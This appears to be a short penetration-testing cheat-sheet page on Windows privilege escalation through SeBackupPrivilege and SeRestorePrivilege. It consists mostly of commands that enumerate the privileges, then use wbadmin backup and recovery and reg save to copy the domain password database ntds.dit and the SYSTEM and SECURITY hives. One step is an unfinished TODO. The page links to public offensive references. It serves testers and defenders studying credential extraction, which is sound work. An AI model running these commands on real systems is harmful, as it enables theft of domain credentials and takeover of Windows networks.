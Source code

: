 # Living off the Land

## 01 - Enumerate

Look for `SeBackupPrivilege` and `SeRestorePrivilege` enabled in the current local username account.

```
C:\> whoami /priv
```

## 02 - Exploit

TODO: Fill this info

```
C:\> robocopy.exe /b
```

```
C:\> echo "Y" | wbadmin.exe start backup -backuptarget:\\127.0.0.1\C$\ProgramData\ -include":C:\Windows\NTDS\ntds.dit,C:\Windows\system32\config\SYSTEM,C:\Windows\system32\config\SECURITY" -quiet
```

> [!INFO] Version Identifier Placeholder
> - `dd` for days
> - `mm` for months
> - `yyyy` for years
> - `HH` for hours
> - `MM` for minutes

```
C:\> wbadmin.exe get versions

C:\> echo "Y" | wbadmin.exe start recovery -version:dd/mm/yyyy-HH:MM -itemtype:file -items":C:\Windows\NTDS\ntds.dit,C:\Windows\system32\config\SYSTEM,C:\Windows\system32\config\SECURITY" -recoverytarget:C:\ -notrestoreacl
```

```
C:\> reg.exe save HKLM\SYSTEM C:\system.hive
```

---
## References

### Source Repositories

- [gtworek: Priv2Admin](https://github.com/gtworek/Priv2Admin)

### Hacktricks

- [Hacktricks: Abusing Tokens](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html)

### Internal All The Things

- [Internal All The Things: Windows Privilege Escalation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)

### Kojiroh

- [Kojiroh: How to Enable SeBackupPrivilege and SeRestorePrivilege](https://kojiroh.wordpress.com/2020/12/15/how-to-enable-sebackupprivilege-and-serestoreprivilege/)

### Lee Holmes

- [Lee Holmes: Adjusting Token Privileges in PowerShell](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/)